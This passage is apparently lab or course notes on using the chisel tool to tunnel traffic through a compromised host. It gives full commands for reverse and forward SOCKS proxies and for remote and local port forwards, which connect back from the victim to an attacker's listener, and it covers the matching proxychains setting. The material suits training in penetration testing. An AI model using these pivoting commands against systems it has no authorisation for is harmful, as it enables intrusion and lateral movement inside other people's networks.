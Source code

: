 [Chisel](https://github.com/jpillora/chisel) is an awesome tool which can be used to quickly and easily set up a tunnelled proxy or port forward through a compromised system, regardless of whether you have SSH access or not. It's written in Golang and can be easily compiled for any system (with static release binaries for Linux and Windows provided). In many ways it provides the same functionality as the standard SSH proxying / port forwarding we covered earlier; however, the fact it doesn't require SSH access on the compromised target is a big bonus.

You must have an appropriate copy of the chisel binary on _both the attacking machine and the compromised server._ Copy the file to the remote server with your choice of file transfer method. You could use the webserver method covered in the previous tasks, or to shake things up a bit, you could use SCP:  
`scp -i KEY chisel user@target:/tmp/chisel-USERNAME`

The chisel binary has two modes: _client_ and _server_. You can access the help menus for either with the command: `chisel client|server --help`


Reverse SOCKS Proxy:
_Let's start by looking at setting up a reverse SOCKS proxy with chisel. This connects _back_ from a compromised server to a listener waiting on our attacking machine.  

On our own attacking box we would use a command that looks something like this:  
`./chisel server -p LISTEN_PORT --reverse &   `

This sets up a listener on your chosen `LISTEN_PORT`.  

On the compromised host, we would use the following command:  
`./chisel client ATTACKING_IP:LISTEN_PORT R:socks &`  

This command connects back to the waiting listener on our attacking box, completing the proxy. As before, we are using the ampersand symbol (`&`) to background the processes.

Forward SOCKS Proxy:
_Forward proxies are rarer than reverse proxies for the same reason as reverse shells are more common than bind shells; generally speaking, egress firewalls (handling outbound traffic) are less stringent than ingress firewalls (which handle inbound connections). That said, it's still well worth learning how to set up a forward proxy with chisel.  

In many ways the syntax for this is simply reversed from a reverse proxy.

First, on the compromised host we would use:  
`./chisel server -p LISTEN_PORT --socks5`  

On our own attacking box we would then use:  
`./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks`  

In this command, `PROXY_PORT` is the port that will be opened for the proxy.

For example, `./chisel client 172.16.0.10:8080 1337:socks` would connect to a chisel server running on port 8080 of 172.16.0.10. A SOCKS proxy would be opened on port 1337 of our attacking machine.  

**[[Proxychains]] Reminder:**  
When sending data through either of these proxies, we would need to set the port in our proxychains configuration. As Chisel uses a SOCKS5 proxy, we will also need to change the start of the line from `socks4` to `socks5`:  
`[ProxyList]   # add proxy here ...   # meanwhile   # defaults set to "tor"   socks5  127.0.0.1 1080   `


_**Remote Port Forward:**_A remote port forward is when we connect back from a compromised target to create the forward.  

For a remote port forward, on our attacking machine we use the exact same command as before:  
`./chisel server -p LISTEN_PORT --reverse &`

Once again this sets up a chisel listener for the compromised host to connect back to.  
The command to connect back is slightly different this time, however:  
`./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &`

You may recognise this as being very similar to the SSH reverse port forward method, where we specify the local port to open, the target IP, and the target port, separated by colons. Note the distinction between the `LISTEN_PORT` and the `LOCAL_PORT`. Here the `LISTEN_PORT` is the port that we started the chisel server on, and the `LOCAL_PORT` is the port we wish to open on our own attacking machine to link with the desired target port.  

To use an old example, let's assume that our own IP is 172.16.0.20, the compromised server's IP is 172.16.0.5, and our target is port 22 on 172.16.0.10. The syntax for forwarding 172.16.0.10:22 back to port 2222 on our attacking machine would be as follows:  
`./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &`  

Connecting back to our attacking machine, functioning as a chisel server started with:  
`./chisel server -p 1337 --reverse &`  

This would allow us to access 172.16.0.10:22 (via SSH) by navigating to 127.0.0.1:2222.

__**Local Port Forward:**_  
_As with SSH, a local port forward is where we connect from our own attacking machine to a chisel server listening on a compromised target.

On the compromised target we set up a chisel server:  
`./chisel server -p LISTEN_PORT`  

We now connect to this from our attacking machine like so:  
`./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT`  

For example, to connect to 172.16.0.5:8000 (the compromised host running a chisel server), forwarding our local port 2222 to 172.16.0.10:22 (our intended target), we could use:  
`./chisel client 172.16.0.5:8000 2222:172.16.0.10:22`

As with the backgrounded socat processes, when we want to destroy our chisel connections we can use `jobs` to see a list of backgrounded jobs, then `kill %NUMBER` to destroy each of the chisel processes.


